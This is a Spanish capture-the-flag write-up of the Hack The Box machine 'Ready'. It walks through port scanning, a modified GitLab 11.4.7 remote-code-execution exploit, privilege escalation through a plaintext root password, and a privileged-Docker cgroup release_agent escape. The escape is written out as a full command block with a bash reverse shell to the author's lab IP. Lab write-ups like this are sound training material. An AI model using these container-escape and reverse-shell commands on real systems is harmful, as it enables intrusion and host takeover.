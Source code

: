 ```yaml
---
title: "Ready - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ready/data/ready.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Doker
  - RCE (Remote Code Execution)
  - GitLab
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/data/readyHTB.png">
</p>

La máquina **Ready** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una puntuación de 4.2, **6646 USER OWNS** y **5768 SYSTEM OWNS** con la ip **10.10.10.220** y un sistema operativo **Linux**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.220]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/scanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5080**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es existe un servicio ***HTTP*** en el puerto 5080 con un **robots.txt** habilitado.
  Si entramos a la pagina web vemos que es tiene como **cms** un GitLab.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/page.png">
  </p>

  Ya que nos permite crear una cuenta procedo a crear la cuenta:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/pageLogin.png">
  </p>


## Lateral Movement

  Ya dentro de la cuenta que acabo de crear, enumerando pude encontrar la versión de **GitLab** la cual es **11.4.7**, buscando con la herramienta de **searchsploit** la versión del CMS encontré que tiene varios exploits que nos permiten hacen un ataque de Remote Code Execution:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/version.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/searchsploit.png">
  </p>

  Examinando el exploit con el **id 49334** ya que pide autenticación usamos ese con las credenciales que acabamos de crear, examinando el exploit se modifico unas lineas ya que tenia algunos errores, se modifico la linea **29** ya que la variable **local_port** estaba tomando el argumento de la variable **password** y a al momento de ejecutar el exploit las credenciales se enviaban mal, también se modifico la linea **59** que esa linea corresponde a el payload, se le agrego el argumento **-e /bin/bash** esto fue asi porque a la hora de ejecutar el exploit nos da la conexión pero no nos permite ejecutar ningún comando y a veces da un error, para asegurar la shell le agregamos estos parámetros:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModpa.png">
  <div class="caption" >Before.</div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModpb.png">
  <div class="caption">After.</div></center></td>
  </tr></table>
  </div>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModB.png">
  </p>

Una vez que ya hice los cambios me puse por el puerto **443** en escucha con Netcat  ejecute el exploit pasado menos de 5 seg. me llego la conexión y con ella la shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/shell.png">
</p>

## Privilege escalation

Una vez que ya estoy dentro de la maquina como el usuario **git** me dirijo a la ruta **/tmp/** y creo un directorio llamado **/winsad** ahí dentro me descargo de mi maquina el binario de **linpeas.sh** con **wget** para poder hacer una enumeración del sistema y encontrar una forma de escalar privilegios, ejecutando el binario me encontré una credencial en texto plano que pertenecía al usuario **root** dentro del archivo **/opt/backup/gitlab.rb**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/passwd.png">
</p>

Ya que tenemos las credenciales de **root** entramos a su directorio personal y vemos que la **flag** de root no esta, lo que genera sospechas ya que podríamos estar en un **Doker**, ya que el mismo **linpeas** nos dio información que no puedo dar muchas pistas de esto mismo y agregar que el comando **ifconfig**, **ip -a** no estaban habilitados o disponibles en la maquina.

Una prueba que podemos ver si estamos en un **Contenedor-Doker** es haciendo un **cat** a la ruta ```/proc/1/cgroup```.

Cgroups significa "grupos de control". Es una característica de Linux que aísla el uso de recursos y es lo que Docker utiliza para aislar los contenedores. Puedes saber si estás en un contenedor comprobando el grupo de control del proceso init en /proc/1/cgroup. Si no estás dentro de un contenedor, el grupo de control debería ser /. Por otro lado, si estás dentro de un contenedor, deberías ver /docker/CONTAINER_ID en su lugar.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/docker1.png">
</p>

Ya que sabemos que estamos en un **Docker** buscando en internet como escapar de un contenedor me encuentro con un articulo el cual explica el como poder escapar de estos mismo.

En el articulo explican que para poder escapar tenemos que ver si el contenedor tiene algún privilegio establecido para ver esto usamos el comando ```#ip link add dummy0 type dummy ```  esto se hace ya que este comando requiere la capacidad **NET_ADMIN**, que el contenedor tendría si tiene privilegios y si este comando se ejecuta con éxito, puede concluir que el contenedor tiene la capacidad **NET_ADMIN**.

En este caso ya que el comando **ip** esta deshabilitado no podemos hacer la prueba pero en el mismo articulo nos explican como podríamos ejecutar comandos en la maquina host estando dentro del contenedor, se seguiría los siguientes comandos:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/bash' > /cmd
echo " bash -i >& /dev/tcp/10.10.15.125/444 0>&1> $host_path/output" >> /cmd <-- Insertamos la revershell
chmod a+x /cmd

bash -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ya ejecutado estas sentencia de comando vemos que efectivamente pudimos salir del docker ejecutando comandos en la maquina host.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/root.png">
</p>


## Referencias

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

https://www.youtube.com/watch?v=_dhONyAk4es
